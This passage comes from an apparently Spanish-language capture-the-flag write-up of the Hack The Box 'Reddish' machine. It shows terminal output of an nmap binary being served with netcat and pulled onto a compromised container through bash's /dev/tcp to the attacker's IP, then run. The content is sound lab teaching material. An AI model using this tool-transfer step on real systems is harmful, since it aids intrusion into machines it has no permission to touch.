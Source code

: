 ```abap
[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #ll nmap 
Permissions Size User        Date Modified Name
.rwxrwxrwx  5,9M angussmoody 19 sep 19:41  nmap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #nc -nlvp 80 < nmap
listening on [any] 80 ...
connect to [10.10.14.116] from (UNKNOWN) [10.129.224.78] 42190
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #md5sum nmap 
99d1b866c3eb7dd11a84829abb5a6758  nmap
```

```abap
root@nodered:/tmp# cat < /dev/tcp/10.10.14.116/80 > nmap
^C
root@nodered:/tmp# md5sum nmap 
99d1b866c3eb7dd11a84829abb5a6758  nmap
```

### Ahora que tenemos el binario, vamos a darle permisos de ejecución y probar a ver con que nos encontramos

```abap
root@nodered:/tmp# chmod +x nmap 

root@nodered:/tmp# ./nmap 
Nmap 6.49BETA1 ( http://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan
  -Pn: Treat all hosts as online -- skip host discovery
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports consecutively - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
```